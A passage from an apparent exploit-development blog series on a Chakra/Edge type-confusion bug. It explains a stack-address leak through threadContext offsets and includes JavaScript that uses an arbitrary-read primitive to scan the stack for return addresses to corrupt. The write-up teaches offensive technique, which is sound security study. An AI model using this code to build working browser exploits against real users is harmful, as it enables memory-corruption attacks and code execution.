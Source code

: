 After running our exploit, we can see that we have successfully leaked a stack address.

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion40.png" alt="">

From our experimenting earlier, the offsets between the leaked stack addresses have a certain degree of variance between script runs. Because of this, there is no way for us to compute the base and limit of the stack with our leaked address, as the offset is set to change. Because of this, we will forgo the process of computing the stack limit. Instead, we will perform our stack scanning for return addresses from the address we have currently leaked. Let's recall a previous image outlining the stack limit of the thread where we leaked a stack address at the time of the leak.

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion39.png" alt="">

As we can see, we are towards the base of the stack. Since the stack grows "downwards", as we can see with the stack base being located at a higher address than the actual stack limit, we will do our scanning in "reverse" order, in comparison to part two. For our purposes, we will do stack scanning by starting at our leaked stack address and traversing _backwards_ towards the stack limit (which is the highest, technically "lowest" address the stack can grow towards).

We already outlined in part two of this blog post the methodology I used in terms of leaking a return address to corrupt. As mentioned then, the process is as follows:

1. Traverse the stack using read primitive
2. Print out all contents of the stack that are possible to read
3. Look for anything starting with `0x7fff`, meaning an address from a loaded module like `chakra.dll`
4. Disassemble the address to see if it is an actual return address

While omitting much of the code from our full exploit, a stack scan would look like this (a scan used just to print out return addresses):

```javascript
(...)truncated(...)

// Leak a pointer to a pointer on the stack from threadContext at offset 0x8f0
// https://bugs.chromium.org/p/project-zero/issues/detail?id=1360
// Offsets are slightly different (0x8f0 and 0x8f8 to leak stack addresses)
stackleakPointer = read64(threadContext[0]+0x8f8, threadContext[1]);

// Print update
document.write("[+] Leaked stack address! type->javascriptLibrary->scriptContext->threadContext->leafInterpreterFrame: 0x" + hex(stackleakPointer[1]) + hex(stackleakPointer[0]));
document.write("<br>");

// Counter variable
let counter = 0x6000;

// Loop
while (counter != 0)
{
    // Store the contents of the stack
    tempContents = read64(stackleakPointer[0]+counter, stackleakPointer[1]);

    // Print update
    document.write("[+] Stack address 0x" + hex(stackleakPointer[1]) + hex(stackleakPointer[0]+counter) + " contains: 0x" + hex(tempContents[1]) + hex(tempContents[0]));
    document.write("<br>");

    // Decrement the counter
    // This is because the leaked stack address is near the stack base so we need to traverse backwards towards the stack limit
    counter -= 0x8;
}
````
